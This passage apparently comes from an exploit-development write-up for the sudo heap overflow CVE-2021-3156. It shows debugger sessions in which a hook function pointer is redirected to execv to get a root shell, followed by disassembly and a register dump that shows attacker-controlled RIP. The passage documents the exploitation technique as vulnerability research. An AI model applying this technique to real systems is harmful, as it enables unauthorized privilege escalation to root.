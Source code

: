 Attacker controlled data present in the hooks target struct, allowing us an arbitrary RIP value


```
gef➤  p execv
$1 = {int (const char *, char * const *)} 0x7ffff7e50450 <execv>
gef➤  p *hook
$2 = {
  entries = {
    sle_next = 0x0
  },
  u = {
    generic_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    setenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    unsetenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    getenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    putenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>
  },
  closure = 0x0
}
gef➤  p hook.u->getenv_fn = 0x7ffff7e50450
$3 = (sudo_hook_fn_getenv_t) 0x7ffff7e50450 <execv>
gef➤  c
Continuing.
process 1759302 is executing new program: /home/lockedbyte/Desktop/exploits/CVE-2021-3156/sudo-1.8.31/SYSTEMD_ONLY_USERDB
Error in re-setting breakpoint 1: No source file named hooks.c.
# id
[Detaching after fork from child process 1759317]
uid=0(root) gid=0(root) groups=0(root)
# 
```

Simulating hijack to `execv()` (libc one, not the PLT at sudoers.so)

`hook` struct address operated at:

```
   0x555555564ff0 <process_hooks_getenv+64> mov    rbx, QWORD PTR [rbx]
   0x555555564ff3 <process_hooks_getenv+67> test   rbx, rbx
   0x555555564ff6 <process_hooks_getenv+70> je     0x55555556500d <process_hooks_getenv+93>
 → 0x555555564ff8 <process_hooks_getenv+72> mov    rdx, QWORD PTR [rbx+0x10]
   0x555555564ffc <process_hooks_getenv+76> mov    rsi, r12
   0x555555564fff <process_hooks_getenv+79> mov    rdi, rbp
   0x555555565002 <process_hooks_getenv+82> call   QWORD PTR [rbx+0x8]
   0x555555565005 <process_hooks_getenv+85> lea    edx, [rax+0x1]
   0x555555565008 <process_hooks_getenv+88> and    edx, 0xfffffffd

```

After the development of a working PoC, the partial overwrite was successful:

```
$rax   : 0x0               
$rbx   : 0x000055607b638b90  →  0x20208a0420002042 ("B "?)
$rcx   : 0x7               
$rdx   : 0x0               
$rsp   : 0x00007ffcb5b1de58  →  0x0000556079797505  →   lea edx, [rax+0x1]
$rbp   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
$rsi   : 0x00007ffcb5b1de60  →  0x0000000000000000
$rdi   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
$rip   : 0x7f1f0b008a04    
$r8    : 0x00007f1f0c1d2081  →  "-> %s @ %s:%d"
$r9    : 0x00007ffcb5b1ddc0  →  0x0000003000000028 ("("?)
$r10   : 0xffffffff        
$r11   : 0x202             
$r12   : 0x00007ffcb5b1de60  →  0x0000000000000000
$r13   : 0x00007ffcb5b1dea0  →  0x0000000000000000
```
